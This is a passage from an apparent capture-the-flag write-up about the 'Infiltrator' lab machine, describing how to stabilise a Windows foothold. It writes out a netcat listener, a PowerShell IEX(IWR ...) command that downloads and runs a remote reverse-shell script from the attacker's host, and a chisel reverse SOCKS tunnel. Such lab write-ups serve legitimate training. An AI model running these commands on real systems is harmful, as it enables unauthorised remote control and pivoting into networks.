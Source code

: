 {% endcode %}

Also make sure your /etc/proxychains4.conf file are updated correctly:

```
┌──(kali㉿kali)-[~/infiltrator-writeup/kerbrute/dist]
└─$ tail /etc/proxychains4.conf 
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

After a moment, evil-winrm starts throwing a ton of errors, and appears to crash. I believe this is due to the kerberos authentication modules, perhaps they are unstable. Let's switch over to something more stable: [https://github.com/antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

In one terminal window, run the command:

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Then, download the Invoke-ConPtyShell.ps1 file and host it on a web port:

```
python3 -m http.server 80
```

Finally, in our unstable evil-winrm session, go ahead and pull/execute it:

{% code overflow="wrap" %}
```
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> IEX(IWR http://10.10.14.55/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.55 3001
```
{% endcode %}

Great, we now have a stable shell, and fully interactable. It's like we're sitting right there in front of a native powershell window. We can close down that other evil-winrm session, it won't kill your shell.

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```

Now, lets do the same as before, and get our proxychains setup:

```
┌──(kali㉿kali)-[~/infiltrator-writeup/kerbrute/dist]
└─$ ./chisel server --port 9050 --socks5 --reverse
2025/05/14 09:29:40 server: Reverse tunnelling enabled
2025/05/14 09:29:40 server: Fingerprint ojy9FrXSl5IUfXgZdKSg0Mdyp8fcFWDqqOlC4r0EoKI=
2025/05/14 09:29:40 server: Listening on http://0.0.0.0:9050
2025/05/14 09:41:38 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
--------------------------------------------------------------------------------------
PS C:\Users\M.harris\Documents> .\chisel.exe client 10.10.14.55:9050 R:socks
2025/05/14 06:41:38 client: Connecting to ws://10.10.14.55:9050 
2025/05/14 06:41:38 client: Connected (Latency 31.0917ms)
```
